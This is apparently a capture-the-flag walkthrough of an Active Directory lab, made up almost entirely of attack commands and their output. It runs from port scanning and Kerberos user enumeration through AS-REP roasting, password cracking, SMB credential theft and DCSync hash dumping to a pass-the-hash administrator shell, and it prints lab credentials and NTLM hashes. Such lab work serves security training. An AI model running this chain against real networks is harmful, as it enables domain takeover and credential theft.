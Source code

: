 
# nmap -sVC 10.10.96.84 -T4

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-16 17:47 EET
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64370 > 10.10.96.84:53 S ttl=38 id=49382 iplen=44  seq=1945375481 win=1024 <mss 1460>
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64371 > 10.10.96.84:53 S ttl=47 id=21233 iplen=44  seq=1945441016 win=1024 <mss 1460>
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64372 > 10.10.96.84:53 S ttl=59 id=42740 iplen=44  seq=1945506555 win=1024 <mss 1460>
Nmap scan report for 10.10.96.84
Host is up (0.37s latency).
Not shown: 987 closed ports
PORT     STATE    SERVICE       VERSION
53/tcp   filtered domain
80/tcp   open     http          Microsoft IIS httpd 10.0
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2022-02-16 15:48:19Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
3389/tcp open     ms-wbt-server Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.30 seconds
```

# AD Users Enumeration 
  ./kerbrute userenum -d spookysec.local --dc 10.10.246.162 userlist.txt 
 ``` 
james@spookysec.local
svc-admin@spookysec.local
robin@spookysec.local
darkstar@spookysec.local
administrator@spookysec.local
backup@spookysec.local
paradox@spookysec.local 
```

# AS-REP ROASTING 
   python3 GetNPUsers.py spookysec.local/ -userfile users.txt -no-pass -dc-ip 10.10.246.162
 ```  
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set  
[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:9e9d37205ca2b017be8b60ae4decc7d8$4d81d588e53cd91588752a3d06537c32d95b9e71c8ad9000bfb2442ae8fdd36a7448fca372decebd0d6ef2a0020b5eea2d690503018447cbd9422ff59fe0aa62777c8840112179b56a1971f083ca17ef83a29d4815f86c3c5836420de128f7c9d6975bd367c02b2f22ce506b61ce0ebaa2a664b59fa40a7fa1d04db8654d62c3f09c803025e270ef112a2f833b4e2d8bc1fe756d58fa734277b25b77e521e57a7a77dc19d517a692704f5c68a5593f552bacc82202f44fecf34ddf36f97ed54d65432eef3739fad5b9ce14fbf81b306503b0191dd3eda6ed3e7ade34bb37cc1b3ee16b240369df8fb7cb79d367bee2c66b2c
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set  
```
# John Hash.txt
```  svc-admin:management2005```

# smbclient -L //10.10.83.246 -U 'svc-admin' 
```	
        Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```
# smbclient //10.10.83.246/backup -U 'svc-admin'

# smb: \> get backup_credentials.txt
```
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
backup@spookysec.local:backup2517860
```
#  DCSync
 python3 secretsdump.py -dc-ip 10.10.83.246 spookysec.local/backup:backup2517860@10.10.83.246 -use-vss
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
```

#  Pass The Hash
    evil-winrm -i 10.10.83.246 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
thm-ad\administrator
```

